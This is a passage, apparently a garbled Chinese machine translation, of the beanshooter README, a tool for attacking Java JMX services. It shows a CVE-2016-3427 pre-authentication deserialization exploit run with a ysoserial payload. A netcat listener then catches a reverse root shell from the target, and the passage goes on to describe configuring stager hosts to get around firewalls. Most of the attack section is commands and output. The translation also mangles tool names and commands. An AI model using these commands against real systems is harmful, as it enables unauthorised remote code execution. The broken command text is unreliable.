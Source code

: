 旧的 *JMX* 实例也可能容易受到 *CVE-2016-3427* 的攻击，这基本上是一个*预授权*反序列化漏洞。上述反序列化攻击应该针对基于 *RMI* 的连接器以及基于 *JMXMP* 的连接器，而*预授权*攻击只针对基于 *RMI* 的连接器:

[**qtc @ kali ~]$ bean shooter–SSL 172 . 18 . 0 . 2 9010 CVE-2016-3427 commons collections 6 " perl/dev/shm/s . pl "
[+]创建 ysoserial 有效负载…完成。
[+]CVE-2016-3427-发送序列化对象作为凭据。
[+]连接尝试期间可能会出现异常。
[+]连接 JMX 服务器…
[+] RMI 对象尝试连接不同的远程主机:iinsecure.dev
[+]重定向连接回 172.18.0.2…失败！
[ *] [* ]捕获到内容为“验证失败”的安全异常！凭据应该是 String[]而不是 java.util.HashSet '。
[*]目标最有可能易受 cve-2016-3427 攻击。
【qtc @ kali ~】$ NC-VLP 4444
Ncat:版本 7.80(https://nmap.org/ncat)
Ncat:监听 on :::4444
Ncat:监听 on 0.0.0.0:4444
Ncat:从 172.18.0.2 连接。
Ncat:连接自 172.18.0.2:46000。
id
uid=0(根)gid=0(根)groups=0(根)**

**高级用法**

上面已经提到过 *beanshooter* 可以从配置文件中读取选项。需要长值的选项，如 *MBean* 类的名称或相应的 *ObjectName* 只能在配置文件内部传递。下面的截图显示了 *beanshooter* 内部使用的默认配置文件:

**default cmd = id
stage rt = 8080
stage test = 127 . 0 . 0 . 1
username =
password =
bound name = jmxrmi
jarpath =/opt/beans hooter/tonka bean/target/
jarname = tonka bean . jar**

通过使用`**--config**`参数指定自定义配置文件，可以覆盖每个选项。自定义配置文件不需要包含所有选项。不存在的选项被简单地设置为默认值。如果您希望您的自定义配置适用于*beanshoter*的每次使用，您也可以在编译项目之前修改 [src](https://github.com/qtc-de/beanshooter/blob/master/src) 文件夹中的 [config.properties](https://github.com/qtc-de/beanshooter/blob/master/src/config.properties) 文件。

在目标服务器因为限制性的防火墙规则而无法访问您的主机的情况下，您可以使用 **`--remote-stager`** 选项来指定一个远程主机。如果您可以访问*远程阶段*，您也可以使用*bean shoter*通过使用`**--stager-only**`选项来部署 *MBean* ，这只会生成 *HTTP* 侦听器。使用此选项时，不需要额外的命令行参数。然而，在你的攻击机器上，你仍然需要通过使用命令行选项或配置文件来指定正确的`**--stager-host**`。

[**Download**](https://github.com/qtc-de/beanshooter)